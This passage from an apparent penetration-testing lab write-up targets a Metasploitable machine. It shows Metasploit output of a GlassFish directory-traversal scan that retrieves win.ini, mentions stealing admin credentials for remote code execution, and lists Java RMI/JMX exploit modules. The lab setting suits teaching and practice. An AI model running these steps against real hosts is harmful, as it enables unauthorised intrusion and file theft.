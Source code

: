 ```
   SSL       true              no        Negotiate SSL/TLS for outgoing connections
   THREADS   1                 yes       The number of concurrent threads (max one per host)
   VHOST                       no        HTTP server virtual host

msf5 auxiliary(scanner/http/glassfish_traversal) > run

[+] File saved in: /home/kali/.msf4/loot/20200901135838_default_172.28.128.4_oracle.traversal_380931.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/http/glassfish_traversal) > loot

Loot
====

host          service  type              name              content     info  path
----          -------  ----              ----              -------     ----  ----
172.28.128.4           oracle.traversal  /windows/win.ini  text/plain        /home/kali/.msf4/loot/20200901135838_default_172.28.128.4_oracle.traversal_380931.txt

```

If an attacker wanted to exploit this further, they could lookup the file that contains the glassfish admin login credentials and then attempt to abuse the admin panel to get remote code execution on the host. However, since there were many other outdated services exposed on this machine, I figured there would be an easier way to own the system.

### JMXRMI (Port 1617)

Since this is a Metasploitable machine, I figured I might as well search for known exploits for `JMXRMI` in metasploit:

```
msf5 > grep java search rmi
   14   auxiliary/gather/java_rmi_registry                                                  normal     No     Java RMI Registry Interfaces Enumeration
   39   auxiliary/scanner/misc/java_jmx_server                             2013-05-22       normal     No     Java JMX Server Insecure Endpoint Code Execution Scanner
   40   auxiliary/scanner/misc/java_rmi_server                             2011-10-15       normal     No     Java RMI Server Insecure Endpoint Code Execution Scanner
   100  exploit/linux/misc/jenkins_java_deserialize                        2015-11-18       excellent  Yes    Jenkins CLI RMI Java Deserialization Vulnerability
   102  exploit/multi/browser/java_rmi_connection_impl                     2010-03-31       excellent  No     Java RMIConnectionImpl Deserialization Privilege Escalation
   103  exploit/multi/browser/java_signed_applet                           1997-02-19       excellent  No     Java Signed Applet Social Engineering Code Execution
   119  exploit/multi/misc/java_jmx_server                                 2013-05-22       excellent  Yes    Java JMX Server Insecure Configuration Java Code Execution
   120  exploit/multi/misc/java_rmi_server                                 2011-10-15       excellent  No     Java RMI Server Insecure Default Configuration Java Code Execution
```
